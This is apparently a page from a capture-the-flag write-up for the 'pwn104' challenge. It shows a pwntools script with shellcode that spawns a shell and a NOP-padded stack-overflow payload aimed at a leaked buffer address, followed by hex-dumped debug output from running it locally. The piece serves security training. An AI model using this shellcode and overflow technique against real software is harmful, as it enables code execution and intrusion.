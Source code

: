 ```python
shellcode=b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

""""

            -------------------
saved rip          &buf
            ===================     ^ 
                    nop             |
            -------------------     | 88 bytes
                shellcode           |
    &buf    -------------------     v

"""

payload=flat([
    shellcode,
    b'\x90'*abs(saved_rip_offset-len(shellcode)),
    buf,
])

io.sendline(payload)
io.interactive()

```

```bash
$ ./exploit 
[+] Starting local process './pwn104': pid 36489
[DEBUG] Received 0x1a4 bytes:
    00000000  20 20 20 20  20 20 20 e2  94 8c e2 94  ac e2 94 90  │    │   ·│····│····│
    00000010  e2 94 ac e2  94 80 e2 94  90 e2 94 ac  20 e2 94 ac  │····│····│····│ ···│
    00000020  e2 94 ac 20  e2 94 ac e2  94 8c e2 94  80 e2 94 90  │··· │····│····│····│
    00000030  e2 94 8c e2  94 80 e2 94  90 e2 94 ac  e2 94 8c e2  │····│····│····│····│
    00000040  94 80 e2 94  8c e2 94 ac  e2 94 90 e2  94 8c e2 94  │····│····│····│····│
    00000050  80 e2 94 90  0a 20 20 20  20 20 20 20  20 e2 94 82  │····│·   │    │ ···│
    00000060  20 e2 94 9c  e2 94 ac e2  94 98 e2 94  94 e2 94 ac  │ ···│····│····│····│
    00000070  e2 94 98 e2  94 9c e2 94  80 e2 94 a4  e2 94 9c e2  │····│····│····│····│
    00000080  94 80 e2 94  a4 e2 94 82  20 20 e2 94  9c e2 94 b4  │····│····│  ··│····│
    00000090  e2 94 90 e2  94 82 e2 94  82 e2 94 82  e2 94 9c e2  │····│····│····│····│
    000000a0  94 a4 20 0a  20 20 20 20  20 20 20 20  e2 94 b4 20  │·· ·│    │    │··· │
    000000b0  e2 94 b4 e2  94 94 e2 94  80 20 e2 94  b4 20 e2 94  │····│····│· ··│· ··│
    000000c0  b4 20 e2 94  b4 e2 94 b4  20 e2 94 b4  e2 94 94 e2  │· ··│····│ ···│····│
    000000d0  94 80 e2 94  98 e2 94 b4  20 e2 94 b4  e2 94 b4 20  │····│····│ ···│··· │
    000000e0  e2 94 b4 e2  94 94 e2 94  80 e2 94 98  0a 20 20 20  │····│····│····│·   │
    000000f0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 70 77  │    │    │    │  pw│
    00000100  6e 20 31 30  34 20 20 20  20 20 20 20  20 20 20 0a  │n 10│4   │    │   ·│
    00000110  0a 49 20 74  68 69 6e 6b  20 49 20 68  61 76 65 20  │·I t│hink│ I h│ave │
    00000120  73 6f 6d 65  20 73 75 70  65 72 20 70  6f 77 65 72  │some│ sup│er p│ower│
    00000130  73 20 f0 9f  92 aa 0a 65  73 70 65 63  69 61 6c 6c  │s ··│···e│spec│iall│
    00000140  79 20 65 78  65 63 75 74  61 62 6c 65  20 70 6f 77  │y ex│ecut│able│ pow│
    00000150  65 72 73 20  f0 9f 98 8e  f0 9f 92 a5  0a 0a 43 61  │ers │····│····│··Ca│
    00000160  6e 20 77 65  20 67 6f 20  66 6f 72 20  61 20 66 69  │n we│ go │for │a fi│
    00000170  67 68 74 3f  20 f0 9f 98  8f f0 9f 92  aa 0a 49 27  │ght?│ ···│····│··I'│
    00000180  6d 20 77 61  69 74 69 6e  67 20 66 6f  72 20 79 6f  │m wa│itin│g fo│r yo│
    00000190  75 20 61 74  20 30 78 37  66 66 66 64  35 38 63 39  │u at│ 0x7│fffd│58c9│
    000001a0  33 64 30 0a                                         │3d0·│
    000001a4
[*] [+] buf address on stack: 0x7fffd58c93d0
[DEBUG] Sent 0x61 bytes:
    00000000  31 c0 48 bb  d1 9d 96 91  d0 8c 97 ff  48 f7 db 53  │1·H·│····│····│H··S│
    00000010  54 5f 99 52  57 54 5e b0  3b 0f 05 90  90 90 90 90  │T_·R│WT^·│;···│····│
    00000020  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
```